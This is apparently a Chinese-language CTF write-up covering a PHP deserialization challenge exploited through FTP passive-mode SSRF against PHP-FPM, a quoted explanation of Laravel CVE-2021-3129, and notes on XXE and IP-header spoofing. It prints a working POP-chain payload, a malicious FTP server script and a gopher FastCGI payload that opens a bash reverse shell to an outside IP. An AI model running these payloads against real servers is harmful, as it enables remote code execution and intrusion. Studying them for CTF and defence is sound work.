



陇原战役
eaaasyphp
题目源码
<?php
class Check {
public static $str1 = false;
public static $str2 = false;
}
class Esle {
public function __wakeup()
{
Check::$str1 = true;
}
}
class Hint {
public function __wakeup(){
$this->hint = "no hint";
}
public function __destruct(){
if(!$this->hint){
$this->hint = "phpinfo";
($this->hint)();
}
}
}
class Bunny {
public function __toString()
{
if (Check::$str2) {
if(!$this->data){
$this->data = $_REQUEST['data'];
}
file_put_contents($this->filename, $this->data);
} else {
throw new Error("Error");
}
}
}
class Welcome {
public function __invoke()
{
Check::$str2 = true;
return "Welcome" . $this->username;
}
}
class Bypass {
public function __destruct()
{
if (Check::$str1) {
($this->str4)();
} else {
throw new Error("Error");
}
}
}
if (isset($_GET['code'])) {
unserialize($_GET['code']);
} else {
highlight_file(__FILE__);
}
利用FTP服务进行SSRF反打PHP-FPM
这道题第一步是反序列化的pop链构造，倒也没什么好说的，很基础的两个小点
exp
<?php
// phpinfo()页面
class Hint {}
// 第二中继，赋值$str1
class Esle {
// public function __construct()
// {
// $this->b = new Hint();
// }
}
// 执行终点
class Bunny {
public function __construct()
{
$this->filename = "ftp://1.15.224.114:33:8000/a";
}
}
// str4跳转
class Welcome {
public function __construct()
{
$this->username = new Bunny();
}
}
// 入口
class Bypass {
public function __construct()
{
$this->a = new Esle();
$this->str4 = new Welcome();
}
}
// 查看phpinfo O:4:"Hint":-1:{}
// echo str_replace("0","-1",serialize(new Bypass()));
echo serialize(new Bypass());
这里这样就可以执行到file_put_contents()
但是这道题用户是没有权限进行写入文件的，所以根据web的思路，getshell两步，一写文件，二反弹shell
既然没有写入的权限，那就反弹shell
反弹shell的过程就是这次比赛最难也最有趣的点
FTP协议的原理
参考文章：https://whoamianony.top/2021/10/24/Web%E5%AE%89%E5%85%A8/%E6%95%99%E4%BD%A0%E7%94%A8%20FTP%20SSRF%20%E6%89%93%E7%A9%BF%E5%86%85%E7%BD%91/
FTP有两种，客户端和服务端
服务端用于储存文件，客户端通过FTP协议访问服务端的资源，FTP协议默认开启20用于传输数据，21用户传输控制信息
FTP有两种工作方式
1、主动模式、
主动模式是FTP服务端主动向客户端发起请求，建立21端口连接的过程。特点是在控制通道上发送 PORT 命令。 PORT 命令包含了客户端用什么端口接收数据。
在传送数据的时候，服务器端通过自己的 TCP 20 端口连接至客户端用 PORT 命令指定的端口发送数据。
2、被动模式
被动模式是客户端主动向服务端发起请求，服务端被动响应的过程，建立21端口连接的过程。特点是FTP 服务器收到 PASV 命令后，随机打开一个高端端口（端口号大于1024）并且通知客户端在这个端口上传送数据的请求。
值得注意的是，这里打开的高端端口是可以被我们指定的，不光是端口，服务端地址也可以指定
227 Entering Passive Mode(192,168,9,2,4,8) # 这句的意思就是告诉客户端打开的高端端口地址为192.168.2的 4 * 256 + 8=1032端口
这道题就是利用被动模式可以指定主机和端口的特点进行攻击
构造恶意FTP服务器
import socket
# 创建socket连接，socket(family=AF_INET, type=SOCK_STREAM, proto=0, fileno=None)
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# 将套接字绑定到地址上，bind 绑定
s.bind(('0.0.0.0', 33))
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
conn.send(b'331 Please specify the password.\n')
conn.send(b'230 Login successful.\n')
# TYPE I
conn.send(b'200 Switching to Binary mode.\n')
# Size /
conn.send(b'550 Could not get the file size.\n')
# EPSV (1)
conn.send(b'150 ok\n')
# PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') # STOR / (2)
conn.send(b'150 Permission denied.\n')
# QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
print("endd")
注意，9000端口只是fpm服务器的默认端口，有时题目会对端口进行修改，所以必须知道怎么查找fpm的端口号
和大多数web服务一样，fpm会将配置信息写入配置文件中，只需要读取配置文件即可获得端口号
/usr/local/etc/php-fpm.d/www.conf
当然这道题没有可以读取文件的地方，所以就要用方法2，利用file_put_contents对http协议的支持对端口进行爆破，根据回显判断端口位置
构造反弹shell payload
这里用工具直接构造
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH105%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00i%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/1.15.224.114/2333%200%3E%261%22%20%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
将_后的内容作为data值即可
执行过程
反序列化file_put_contents访问服务器上构造的恶意FTP服务器
conn.send(b’227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n’) # STOR / (2)
恶意FTP指定客户端（题目网站）将数据发给127.0.0.1:9000 ,即发给本地php-fpm服务
接着题目按恶意FTP要求将写入的data发给php-fpm
php-fpm收到数据并执行反弹shell操作
以上就是这道题目，使用反序列化连接恶意ftp服务器反打php-fpm
依次利用了反序列化，SSRF的攻击原理
思考总结
在这道题目中，FTP只是起到了一个中继器的效果，通过将数据直接重定向给fpm达到了提权的目的
所以这种攻击手段实际上不止可以用于攻击fpm，同样可以攻击mysql,redis等可以对数据包进行伪造的服务
摘抄
这里参考文章的作者还举了一个生动的例子，很有意思，我将它摘抄到下面了
+++ 号包裹
++++++++++++++++++++
活学活用
Laravel Debug mode && FTP SSRF to RCE
Laravel 是一套简洁、开源的 PHP Web 开发框架，旨在实现 Web 软件的 MVC 架构。
2021 年 01 月 12 日，Laravel被披露存在一个远程代码执行漏洞（CVE-2021-3129）。当 Laravel 开启了 Debug 模式时，由于 Laravel 自带的 Ignition 组件对 file_get_contents() 和 file_put_contents() 函数的不安全使用，攻击者可以通过发起恶意请求，构造恶意 Log 文件等方式触发 Phar 反序列化，最终造成远程代码执行：
- vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php

该漏洞可以简化为以下两行：
PHP
$contents = file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
可以看到这里主要功能点是：读取一个给定的路径 $parameters['viewFile']，并替换读取到的内容中的 $variableName 为$variableName ?? ''，之后写回文件中 $parameters['viewFile']，这相当于什么都没有做！
该漏洞的预期利用方法是重写日志文件然后使用 phar:// 协议去触发 Phar 反序列化并实现 RCE。但有时候由于某些原因，我们无法是通过该方法进行 RCE，这时候我们便可以考虑本篇文章所讲的知识点，利用 FTP SSRF 攻击内网应用，从而寻找 RCE 的办法。
由于我们可以运行 file_get_contents 来查找任何东西，因此，可以运用 SSRF 常用的姿势，通过发送 HTTP 请求来扫描常用端口。假设此时我们发现目标正在监听 9000 端口，则很有可能目标主机上正在运行着 PHP-FPM，我们可以进一步利用该漏洞来攻击 PHP-FPM。
众所周知，如果我们能向 PHP-FPM 服务发送一个任意的二进制数据包，就可以在机器上执行代码。这种技术经常与 gopher:// 协议结合使用，curl支持 gopher:// 协议，但 file_get_contents 和 file_put_contents 却不支持。
另一个已知的允许通过 TCP 发送二进制数据包的协议就是我们本文所讲的 FTP，更准确的说是该协议的被动模式，即：如果一个客户端试图从 FTP 服务器上读取一个文件（或写入），服务器会通知客户端将文件的内容读取（或写）到一个特定的 IP 和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口，如果它愿意的话。
现在，由于该 laravel 漏洞中 file_get_contents 和 file_put_contents 这两个函数在作祟，如果我们尝试使用 viewFile=ftp://evil-server/file.txt 来利用这个漏洞，会发生以下情况：
file_get_contents连接到我们的FTP服务器，并下载 file.txt。file_put_contents连接到我们的FTP服务器，并将其上传回 file.txt。
现在，你可能已经知道这是怎么回事：我们将使用 FTP 协议的被动模式让 file_get_contents 在我们的服务器上下载一个文件，当它试图使用 file_put_contents 把它上传回去时，我们将告诉它把文件发送到 127.0.0.1:9000。
这样，我们就可以向目标主机本地的 PHP-FPM 发送一个任意的数据包，从而执行代码，造成 SSRF。
++++++++++++++++++++++++++++++++++++++
死板的计算机在我们的操作下彷佛有了自己的灵魂，不是一件很有意思的事吗？
2021美团网络安全高校挑战赛
UpStorage
一道非常杂糅的题目
当然对我来说，其中几个考点都有我可以学习的地方
XXE注入
首先是一个对XXE的考察，说真的，我不觉得现在的XXE可以考的很深，局限就放在哪里，做好过滤xxe直接废掉，所以xxe的考点从来都是要么一条payload打全场，要么稍微过过脑洞，美团的这道题也一样，属于是最基础的部分，这个知识点我之前有过详细的记录，不重复写了。
链接：
https://atmujie.github.io/2021/09/17/XEE%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/
读取session文件
这里的第二个考点一个session文件造成的信息泄露
这道题目本来是不是想考这个点，我无从得知，也不想知道，源码逻辑如下
if (isset($_FILES["file"])) {
// md5加密test + $_SERVER['REMOTE_ADDR']定义路径
$dst_path = 'upload/'.md5("test".$_SERVER['REMOTE_ADDR']);
@mkdir($dst_path);
file_put_contents($dst_path.'/index.html', 'Nothing!');
$filename = $_FILES["file"]["name"];
$file = new File();
$basename = $file->get_file_name($filename);
$fileext = $file->get_real_ext($_FILES["file"]["type"]);
// md5加密文件名和路径拼接
$dst_path = $dst_path."/".md5($basename).$fileext;
$filezise = $file->get_file_size($filename);
if (strlen($filename) < 70 && strlen($filename) !== 0) {
// 保存文件
move_uploaded_file($_FILES["file"]["tmp_name"], $dst_path);
$response = array("success" => true, "message" => "File upload success", "filesize" => $filezise);
Header("Content-type: application/json");
echo json_encode($response);
} else {
$response = array("success" => false, "error" => "Invaild filename");
Header("Content-type: application/json");
echo json_encode($response);
}
}
那么想查看我们上传的文件，就需要知道自己的$_SERVER['REMOTE_ADDR']
这里我再加一个扩展，之前我一直不懂REMOTE_ADDR,XFF,Client-ip这几个获取ip方式的区别，直到现在，我终于懂了，很开心
ip的几种获取方式
$_SERVER[‘REMOTE_ADDR’]
说是几种，其实都是扯淡，从头到尾，ip只有一种获取方式，在php中是$_SERVER[‘REMOTE_ADDR’]这个超全局变量
它的逻辑是获取于服务器建立连接的客户端ip地址
比如说
我在学校内网访问baidu，这时如果百度如果用REMOTE_ADDR获取ip,那么它得到的就是我的网关ip，是直接获取和百度他自己的服务器建立连接的ip地址
当然，如果我开了代理，那么和百度服务器建立直接连接的就是我的代理服务器，REMOTE_ADDR获取的自然是我的代理ip
所以REMOTE_ADDR获取的是我们的真实使用的ip（不是绝对真实），它无法被伪造
其他超全局变量
刚刚说对于正代，百度将得到代理服务器ip，那么反代呢？
同理，在存在反代服务器的前提下，REMOTE_ADDR获取的自然是反代服务器的ip，因为这时反代服务器才是和百度数据服务器建立直接连接的服务器
于是开发们想了一个办法：在反代服务器加一个超全局变量，让反代服务器将获得的REMOTE_ADDR的值，写进这个超全局变量里，和数据一并给后端服务器
这时服务器只需要查看这个超全局变量记录的第一个ip,就可以得到访问者的真实ip地址
而反代服务器加的这个变量，nginx叫X-Real-IP，apache叫HTTP_X_FORWARDED_FOR
根据反代服务器/中间件的不同，还有HTTP_CLIENT_IP,HTTP_X_FORWARDED,HTTP_X_CLUSTER_CLIENT_IP,HTTP_FORWARDED_FOR,HTTP_FORWARDED，HTTP_VIA (经过的 Proxy)
这些都是反代服务器自已定义，用来保存REMOTE_ADDR的
==所以他们全部可控！==
其他语言同理，这就是网站记录访问者ip的根本原理，这才是为什么我们之前学习的XFF可以伪造ip的根本原因
所以ip伪造，代理才是根本。其他的啥也不是，因为这些反代服务器的超全局变量，开发爱写什么名就写什么名！

在往下，就是代码底层，web从表现研究到底层，pwn从底层研究到表面，这才是最根本的安全
参考文章http://blog.nsfocus.net/user-ip/
感谢大家无私的分享，让我可以解惑
言归正传，这道题目需要知道远程地址，那么按上面说的，看眼自己ip就行，但没这么简单，出题人大概是开了反代之后还用REMOTE_ADDR获取ip，导致他的ip地址根本不是我们的ip,而是他反代服务器的ip
还好代码里有这么一句：

登录成功之后，会将REMOTE_ADDR的值赋值给SESSION，所以只要知道session的内容，就能知道这道题反代服务器的ip